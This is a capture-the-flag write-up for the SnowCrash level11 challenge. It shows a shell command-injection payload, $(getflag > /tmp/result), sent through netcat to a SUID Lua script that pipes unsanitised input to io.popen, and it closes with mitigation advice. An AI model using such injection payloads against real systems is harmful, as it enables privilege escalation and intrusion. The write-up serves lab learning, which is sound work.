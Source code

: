 ## 📄 Description

This level provides a Lua script with SUID permissions, running as the `flag11` user. The script listens on `127.0.0.1:5151`, asks for a password, and hashes the input using a shell command. Our goal is to exploit this behavior to run `getflag` as `flag11` and capture the flag.

## 🧩 Challenge Overview

- We have a Lua script named `level11.lua` that is owned by `flag11` and has the **SUID** bit set, so it runs with `flag11` privileges when executed by `level11` :
```
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

- The script uses `io.popen` to run a shell command that hashes user input :
```
level11@SnowCrash:~$ cat level11.lua 
[...]
  prog = io.popen("echo "..pass.." | sha1sum", "r")
[...]
```
- User input is directly concatenated into the shell command without any sanitization.
```
level11@SnowCrash:~$ cat level11.lua 
[...]
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
[...]
```

- Exploiting this allows running commands as `flag11` since the Lua script has the *SUID* bit set.

## ⚔️ Exploitation Strategy

- Connect to the Lua server running on 127.0.0.1 port 5151 using netcat:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password:
```

- Inject the payload $(getflag > /tmp/result) as the password input to execute the getflag command and redirect its output:
```
Password: $(getflag > /tmp/result)
Erf nope..
```

## ✅ Result

- Read the flag stored in /tmp/result:
```
level11@SnowCrash:~$ cat /tmp/result
Check flag.Here is your token : 
```

## 🛡️ Mitigation Advice

- Avoid `direct` concatenation of user input into shell commands to prevent **injection vulnerabilities**.
- Implement `rigorous input validation` and `strict filtering mechanisms`.
- Remove the `SUID` bit from scripts unless absolutely necessary to minimize privilege escalation risks.
